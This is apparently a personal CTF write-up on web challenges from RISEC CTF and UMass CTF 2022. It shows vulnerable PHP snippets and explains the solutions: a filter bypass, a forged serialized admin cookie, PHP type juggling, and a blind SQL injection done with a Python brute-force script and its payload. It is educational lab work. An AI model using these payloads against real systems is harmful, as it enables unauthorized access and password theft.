```yaml
---
description: 'Note : A JOURNEY TO GAIN KNOWLEDGE'
---
```


# RISEC CTF + UMass CTF 2022

<mark style="color:blue;">`Web Challenge`</mark>

## RISEC CTF&#x20;

### Pretty Horrible Program 1

```
  <?php
  if (isset($_GET['bingus'])) {
    $input = $_GET['bingus'];
    $to_replace = 'bingus';
    $clean_string = preg_replace("/$to_replace/", '', $input);
    echo "<p>Your string is: $clean_string</p>";
    if ($clean_string == $to_replace) {
      echo "<h2 class=\"answer\">Bingus <span style=\"color: green;\">IS</span> your beloved</h2>";
      output_flag();
    } else {
      echo "<h2 class=\"answer\">Bingus <span style=\"color: red;\">IS NOT</span> your beloved</h2>";
    }
  }
  ?>
```

* Notice that $clean\_string genererated by replacing&#x20;
* So that we just input something that after replacing. it's equal to 'bingus'

demo:

![](<.gitbook/assets/image (3) (1).png>)

![](<.gitbook/assets/image (8) (1).png>)



### Pretty Horrible Program 2

```
class User
  {
    public $role = 'Admin'; 	
}

$default_user = new User;
$_COOKIE = serialize($default_user);
setcookie(
    'user',
    serialize($default_user)
  );
$a=unserialize($_COOKIE);
echo "$_COOKIE"
```

### Pretty Horrible Program 3

```
<?php
  if (isset($_GET['input1']) and isset($_GET['input2'])) {
    if ($_GET['input1'] == $_GET['input2']) {
      print '<h3 class="error">Nice try, but it won\'t be that easy ;)</h3>';
    } else if (hash("sha256", $_GET['input1']) === hash("sha256", $_GET['input2'])) {
      output_flag();
    } else {
      print '<h3 class="error">Your inputs don\'t match</h3>';
    }
  }
  ?>
  <p>See if you can make the sha256 hashes match</p>
  <br />
  <a href="/php3/index.php?source=true">Source Code</a>
  <form method="get">
    <input type="text" required name="input1" placeholder="Input 1" />
    <p>Hash: <?php if (isset($_GET['input1'])) print hash("sha256", $_GET['input1']) ?></p>
    <input type="text" required name="input2" placeholder="Input 2" />
    <p>Hash: <?php if (isset($_GET['input2'])) print hash("sha256", $_GET['input2']) ?></p>
    <input type="submit" />
  </form>
</body>

</html>
<?php
```

Workflow:

* At first, i just try to find around the key work "SHA256 collision" but we got [<mark style="color:blue;">this one</mark> ](https://crypto.stackexchange.com/questions/47809/why-havent-any-sha-256-collisions-been-found-yet)<mark style="color:blue;">,</mark> it takes about ≈3.6×1013 years to find, so that it's not a practical option.
* After that i focused on '==' in php. Searching around and i got [<mark style="color:blue;">this</mark> ](https://www.invicti.com/blog/web-security/php-type-juggling-vulnerabilities/)and [<mark style="color:blue;">this</mark>](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf)<mark style="color:blue;"></mark>
* Now you just put \[] in input and get flag.

## UMass CTF

## venting

This challenge ended and the website was turned off. So i build it in docker from [<mark style="color:blue;">here</mark>](https://github.com/UMassCybersecurity/UMassCTF-2022-challenges)<mark style="color:blue;"></mark>

* when you connectn try to see history in burpsuite, you can get the link redirect to the login page
* Now read the hint with 'admin' in user and  password does't have fillter so that mean that may be SQLI. Exactly. that's is blind SQLI
* I solve this challenge by burpsuite as same as [<mark style="color:blue;">this lab</mark>](https://portswigger.net/web-security/sql-injection/blind)<mark style="color:blue;"></mark>

otherway, try to bruteforce by python request:

```
import requests, string

url = "http://localhost:49153/fff5bf676ba8796f0c51033403b35311/login"
s = requests.session()

passwordRetrieve = ""
# ' or (select 'a' from users where username='admin' and length(Password)>36)='a

def solve():
    global passwordRetrieve
    index = 0
    while True:
        for char in string.printable:
            usernamefield = "\\"
            passwordfield = f"' or (select 'a' from users where username='admin' and substr(Password,{index},1)='{char}')='a"
            postParam = {'user': usernamefield, 'pass': passwordfield}
            response = s.post(url, data=postParam).text
            if "Invalid" not in response:
                passwordRetrieve += char
                index += 1
                print(passwordRetrieve)
                break
        if (index == 37):
            break
SELECT * from users WHERE username='admin\' AND Password = ''or 'True'
solve()
```





Thanks for reading. Have a good day :heart: !



Contact:

* <mark style="color:blue;">``</mark><img src=".gitbook/assets/image (6) (1).png" alt="" data-size="line"><mark style="color:blue;"></mark>[<mark style="color:blue;">facebook</mark> ](https://www.facebook.com/rong.truong.372)<mark style="color:blue;"></mark>
